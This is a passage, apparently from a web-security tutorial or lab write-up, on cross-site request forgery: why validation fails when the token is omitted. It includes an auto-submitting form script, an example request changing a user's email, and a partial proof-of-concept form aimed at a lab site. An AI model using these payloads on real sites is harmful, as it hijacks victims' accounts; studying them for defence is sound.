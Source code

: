 ```html

        <script>

        window.onload = function() {

            document.forms[0].submit();

            //there is only 1 from in this page so index 0 

        }

        </script>

    </body>

</html>

```



##### 2)Validation of CSRF token depends on token being present



 Some applications correctly validate the token when it is present but skip the validation if the token is omitted.



In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:



```HTTP

POST /email/change HTTP/1.1

Host: vulnerable-website.com

Content-Type: application/x-www-form-urlencoded

Content-Length: 25

Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm



email=pwned@evil-user.net

```



```html

<html>

    <body>

        <form action="https://0a89004003f36c2586bf68bd004700ee.web-security-academy.net/my-account/change-email" method='POST'>

            <input type="hidden" name="email" placeholder="Enter email"    value="csrf@csrf.com">

        </form>

        <script>
```